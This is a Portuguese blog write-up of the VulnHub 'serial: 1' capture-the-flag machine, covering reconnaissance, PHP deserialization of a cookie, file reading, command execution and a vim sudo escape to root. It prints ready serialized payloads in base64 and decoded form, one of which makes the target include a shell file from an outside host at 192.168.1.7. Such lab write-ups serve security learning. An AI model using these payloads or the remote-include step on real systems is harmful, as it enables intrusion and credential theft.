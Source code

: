 ```yaml
---
title: 'VulnHub serial: 1'
excerpt: "Desafio CTF <strong><a href=''>VulnHub serial: 1</a></strong> Realizado para aprendizado sobre conceitos de segurança da informação."
date: 2019-08-22 17:08:41
tags: 
  - Hacking
  - Tutorial
  - Segurança da informação
  - CTF
  - "Series: serial"
cover: https://cdn-images-1.medium.com/max/800/1*E0oIubshtbc73STQvJvVVA.png
cover_creditos:
default_cover:
---
```


Hello friends.

> _Alvo:_ **serial: 1 (Linux)**
> _Atacante:_ **parrot** 4.19

### Informações sobre o Alvo.

Nenhuma informação sobre o alvo.

### Reconhecimento / Enumeração.

Descobrindo portas abertas no alvo.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*E0oIubshtbc73STQvJvVVA.png" alt="">
      <figcaption></figcaption>
    </figure>

nmap

Logo depois do nmap fazer a varredura no alvo percebemos que existe duas portas abertas um rodando servidor ssh e outra rodando apache.  
Em seguida fazemos uma varredura no servido web em busca de alguma brecha.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*ODfuxGEJggU5M4sUuT5ZPQ.png" alt="">
      <figcaption></figcaption>
    </figure>

nikto

Ao terminar a varredura encontramos uma pasta backup com um arquivo zip.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*EBBofWkmuG0cccEMni0ZrQ.png" alt="">
      <figcaption></figcaption>
    </figure>

bak.zip

Logo depois de baixar o zip e descompactar, notamos que existe alguns scripts em php.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*OK7PvAwujCzPB2UwJtDu_w.png" alt="">
      <figcaption></figcaption>
    </figure>

lista de arquivos.

Agora vamos fazer uma verificação nos script e verificar se existe alguma brecha.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*NMBwaqW0wBphYl1Mnw90aA.png" alt="">
      <figcaption></figcaption>
    </figure>

index.php

No index.php notamos que o cookies é serializado e depois cifrando em base64, logo abaixo existe uma função (unserialize) que aparentemente esta vulnerável.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*9Oo_9P6ntqCns5jsC8DPUg.png" alt="">
      <figcaption></figcaption>
    </figure>

Classe User e Welcome.

Nas classes **User** e **Welcome** não há nada que possa ser aproveitado.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*WZFTDR-fbe_l8cLq4OZiSg.png" alt="">
      <figcaption></figcaption>
    </figure>

Classe Log.

Na classe **Log** tem um “include” que esta vulnerável.  
Antes vamos ver o que vem no cookie ao acessar o servidor.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*0Qw4PkhuhUdIKNZKaTRCNA.png" alt="">
      <figcaption></figcaption>
    </figure>

requisição no servidor.

**base64 codificado.**

> Tzo0OiJVc2VyIjoyOntzOjEwOiIAVXNlcgBuYW1lIjtzOjM6InNrNCI7czo5OiIAVXNlcgB3ZWwiO086NzoiV2VsY29tZSI6MDp7fX0=

**base64 decodificado.**

> O:4:”User”:2:{s:10:”Username”;s:3:”sk4";s:9:”Userwel”;O:7:”Welcome”:0:{}}

Agora vamos criar nosso payload para teste.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*H8lD21pGTzcNqmZKRI5YUg.png" alt="">
      <figcaption></figcaption>
    </figure>

Classe Log modificada.

Vamos fazer a classe **Log** ler o **passwd** do servidor.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*yiZLUMygL0tINDcLery-8w.png" alt="">
      <figcaption></figcaption>
    </figure>

Chamando a classe **Log** no lugar da **Welcome**, e gerando o payload.

**base64 codificado.**

> Tzo0OiJVc2VyIjoyOntzOjEwOiIAVXNlcgBuYW1lIjtzOjc6IkhBQ0tFUiAiO3M6OToiAFVzZXIAd2VsIjtPOjM6IkxvZyI6MTp7czoxMzoiAExvZwB0eXBlX2xvZyI7czoxMToiL2V0Yy9wYXNzd2QiO319

**base64 decodificado.**

> O:4:”User”:2:{s:10:”Username”;s:7:”HACKER “;s:9:”Userwel”;O:3:”Log”:1:{s:13:”Logtype\_log”;s:11:”/etc/passwd”;}}

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*ONady6B01Di8uF_hps_zRQ.png" alt="">
      <figcaption></figcaption>
    </figure>

Burp

O resultado é a leitura do arquivo passwd.  
Vamos criar uma shell para executar alguns comando.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*xVDLNcggZw89CO59xr4CwQ.png" alt="">
      <figcaption></figcaption>
    </figure>

shell.txt

Observe que a extensão do arquivo é .txt

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*evfTBCCc9UgfqDD7pVEIZw.png" alt="">
      <figcaption></figcaption>
    </figure>

alterando a classe Log.

Alterando a classe **Log** para pegar o arquivo shell.txt e gerando um novo payload gerado:

**base64 codificado.**

> Tzo0OiJVc2VyIjoyOntzOjEwOiIAVXNlcgBuYW1lIjtzOjc6IkhBQ0tFUiAiO3M6OToiAFVzZXIAd2VsIjtPOjM6IkxvZyI6MTp7czoxMzoiAExvZwB0eXBlX2xvZyI7czozMzoiaHR0cDovLzE5Mi4xNjguMS43OjkwOTAvc2hlbGwudHh0Ijt9fQ==

**base64 decodificado.**

> O:4:”User”:2:{s:10:”Username”;s:7:”HACKER “;s:9:”Userwel”;O:3:”Log”:1:{s:13:”Logtype\_log”;s:33:”[http://192.168.1.7:9090/shell.txt](http://192.168.1.7:9090/shell.txt)";}}

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*aYRW6s24NtrqweVk-po0Ug.png" alt="">
      <figcaption></figcaption>
    </figure>

executando comando “id”.

Nosso comando funciona perfeitamente.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*4bm1aeuNTf4us81FeVTBpA.png" alt="">
      <figcaption></figcaption>
    </figure>

credentials.txt.bak

Listando os arquivo da raiz do servidor, encontramos um arquivo com o nome de “credentials” tudo indica ser uma senha.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*T4Wjz4-2Nne4JG4Tq9gxkA.png" alt="">
      <figcaption></figcaption>
    </figure>

Conseguindo a senha.

Obtemos a nossa senha.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*rf3Sm8Q631g_2vlWAltIhQ.png" alt="">
      <figcaption></figcaption>
    </figure>

Primeira flag.

Ganhamos acesso ao servidor, e obtemos a primeira flag.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*JFz4iyo8FwZszpLwiJhtWA.png" alt="">
      <figcaption></figcaption>
    </figure>

Ganhando acesso.

Temos como executar o VIM como super usuário, e para escapar para é só pressionar ESC e digitar e digitar “:!bash”.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*ypWcrTQGXIbYny1WgXGvAQ.png" alt="">
      <figcaption></figcaption>
    </figure>

Ganhamos acesso root.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*kSeR-khp2aPb5yEaBiD-dw.png" alt="">
      <figcaption></figcaption>
    </figure>

Acesso root.

Até a próxima.
